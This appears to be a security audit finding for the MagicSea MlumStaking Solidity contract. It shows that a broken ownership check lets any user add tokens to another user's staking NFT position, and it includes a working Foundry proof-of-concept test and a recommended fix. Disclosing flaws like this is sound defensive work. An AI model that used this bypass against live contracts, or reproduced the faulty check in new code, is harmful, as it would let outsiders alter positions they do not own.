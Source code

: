 Fast Honeysuckle Dinosaur

High

# Improper Access Control of addToPosition() allows anyone to increase the position of any existing lsNFT

## Summary
Lack of proper access control in `addToPosition()` enables any user to add any amount to any existing lsNFT position without actually owning it. This results in multiple impacts detailed below but such as loss of funds for legitimate users accidentally adding to positions they do not own as ordinarily, such an operation should fail. 

## Vulnerability Detail
lsNFT's are minted to users who create a position by staking Mlum tokens and it is expected that only the owner of the NFT should be able to add amounts to the position. However, this is broken to an incorrect access control implementation. 

```solidity
function addToPosition(
        uint256 tokenId,
        uint256 amountToAdd
    ) external override nonReentrant {
        _requireOnlyOperatorOrOwnerOf(tokenId); //@audit - can be bypassed by anyone because it always returns true
```
The `_requireOnlyOperatorOrOwner()` is used to check if the caller is the owner or an operator of the tokenId. This function in turn calls `_isAuthorized()` from the ERC721Upgradeable contract but it does it by passing in `msg.sender` as both the spender and owner.
```solidity
    /**
     * @dev Check if a userAddress has privileged rights on a spNFT
     */
    function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        // isApprovedOrOwner: caller has no rights on token
        require(
            ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId),
            "FORBIDDEN"
        ); //@audit - passing msg.sender as spender and owner to _isAuthorized always returns true
    }
```
This inevitably leads to the function `_requireOnlyOperatorOrOwner()` always evaluating as true due to the logic of `_isAuthorized()` where it returns true if `owner == spender` and `spender != address(0)`. This is shown below:
```solidity
    /**
     * @dev Returns whether `spender` is allowed to manage `owner`'s tokens, or `tokenId` in
     * particular (ignoring whether it is owned by `owner`).
     *
     * WARNING: This function assumes that `owner` is the actual owner of `tokenId` and does not verify this
     * assumption.
     */
    function _isAuthorized(address owner, address spender, uint256 tokenId) internal view virtual returns (bool) {
        return
            spender != address(0) &&
            (owner == spender || isApprovedForAll(owner, spender) || _getApproved(tokenId) == spender);
    }
```

### POC 
The following code block can be added to `MlumStaking.t.sol` to run the viable POC demonstrating the issue. 
```solidity 
    function testBobAddToAlicePosition() public {
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(BOB, 2 ether);

        //create position for Alice
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 90 days);
        vm.stopPrank();

        MlumStaking.StakingPosition memory position = _pool.getStakingPosition(
            1
        );
        //confirm Alice is the owner of the position before Bob adds to it
        assertEq(ERC721(address(_pool)).ownerOf(1), ALICE);

        //add to Alice's position as Bob
        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 1 ether);
        //add one ether to Alice's position
        _pool.addToPosition(1, 1 ether);
        vm.stopPrank();

        position = _pool.getStakingPosition(1);
        //confirm Alice's position has been added to by Bob
        assertEq(position.amount, 2 ether);
    }
```

Here is the log showing the test passed. 
```text
Ran 1 test for test/MlumStaking.t.sol:MlumStakingTest
[PASS] testBobAddToAlicePosition() (gas: 550786)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.65ms (1.47ms CPU time)
```
## Impact
Multiple impacts arise from this:
- For ordinary users, they could accidentally add to a position that they do not own when intending to add to their own and this leads to a loss of funds for those users.
- For users who have amounts added to their existing positions against their will, this results in early harvesting of rewards as `_harvestPosition` is called whenever `addToPosition()` executes. Additionally, depending on the amount, this changes the expected lock duration of the user's position without their consent.


## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L397-L398
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L140-L142
## Tool used
Foundry
Manual Review

## Recommendation
Use the `_requireOnlyApprovedOrOwnerOf()`function to check for ownership or approval of an NFT as it is done with the other functions in the contract.